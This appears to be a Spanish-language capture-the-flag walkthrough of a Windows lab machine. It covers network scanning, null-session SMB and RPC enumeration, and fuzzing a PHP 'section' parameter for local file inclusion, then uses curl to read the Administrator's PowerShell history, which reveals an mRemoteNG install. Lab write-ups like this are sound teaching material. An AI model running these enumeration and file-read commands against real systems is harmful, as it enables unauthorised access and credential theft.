









## FASE DE RECONOCIMIENTO

Vamos a saber la IP de la máquina victima:

```bash
sudo arp-scan -l | grep "PCS"                    
```




Sabiendo la IP `192.168.1.45` vamos a lanzar un scaneo de puertos para ver los que están abiertos y que servicios corren por ellos:

```bash
sudo nmap -sS -sVC -p- --open -Pn --min-rate 5000 -vvv 192.168.1.45 -oN PuertosYServicios
```






Vemos varios puertos: 
-80 interesante HTTP
-445 samba
-varios rcp
-5985 winrm

## ENUMERACIÓN 445

Hacemos enumeracion con null session:
```bash
netexec smb 192.168.1.45
smbclient -NL //192.168.1.45
smbmap --no-banner -H 192.168.1.45 -u '' -p ''
netexec smb 192.168.1.45 -u '' -p '' --shares
```




## ENUMERACION RPC 
Enumeramos con null session
```bash
rpcclient -NU "" 192.168.1.45 -c "srvinfo"
```





#ENUMERACION HTTP

En el código fuente de la página vemos un php que ejecuta el paramatro `section` para hacer consultas de archivos, vamos a probar si podemos leer alguno interno.



me bajo el diccionario de 
```
https://github.com/lavafuego/Diccionarios/blob/main/diccionario_rutas_windows.md
```

y lanzo un ataque de fuerza bruta:

```bash
wfuzz -c --hc=404 --hh=0 -w /home/kali/Desktop/windows/diccionario_rutas_windows.md -u "http://192.168.1.45/page.php?section=FUZZ"
```





vemos que tenemos acceso al 'C:\Windows\System32\drivers\etc\hosts' y lo que es mejor al historial de powershell `C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`




Vamos a ver el historial con curl:
```bash
curl -sX POST "http://192.168.1.45/page.php?section=C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```





-cd C:\Users\Administrator\Desktop\ --> vemos que se han movido al esritorio de admministrator

-msiexec.exe /i ".\mRemoteNG-Installer-1.76.20.24615.msi" --> msiexec.exe es el nstalador de windows para paquetes msi, con /i indica que se quiere instalar el paquete

-`.\mRemoteNG-Installer-1.76.20.24615.msi` --> en el directorio actual  se quiere instalar`mRemoteNG` en su versión `1.76.20.24615`

-Remove-Item ".\mRemoteNG-Installer-1.76.20.24615.msi" -Force --> elimina el archivo msi de instalacion

-Restart-Computer -Force --> reinicia el equipo de forma forzada


